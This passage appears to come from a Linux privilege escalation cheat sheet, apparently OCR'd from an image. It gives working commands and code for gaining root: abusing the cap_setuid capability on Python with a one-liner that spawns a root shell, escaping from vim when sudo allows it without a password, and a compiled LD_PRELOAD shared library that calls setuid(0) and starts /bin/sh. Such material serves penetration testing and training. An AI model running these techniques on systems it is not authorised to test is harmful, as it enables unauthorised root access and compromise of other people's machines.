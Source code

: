 Having the capability =ep means the binary has all the capabilities.
```powershell
$ getcap openssl /usr/bin/openssl 
openssl=ep
```

Alternatively the following capabilities can be used in order to upgrade your current privileges.

```powershell
cap_dac_read_search # read anything
cap_setuid+ep # setuid
```

Example of privilege escalation with `cap_setuid+ep`

```powershell
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```

## SUDO

### NOPASSWD

Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.

```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user `demo` can run `vim` as `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh`.

```bash
sudo vim -c '!sh'
sudo -u root vim -c '!sh'
```

### LD_PRELOAD and NOPASSWD

If `LD_PRELOAD` is explicitly defined in the sudoers file

```powershell
Defaults        env_keep += LD_PRELOAD
```

Compile the following C code with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```powershell
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```
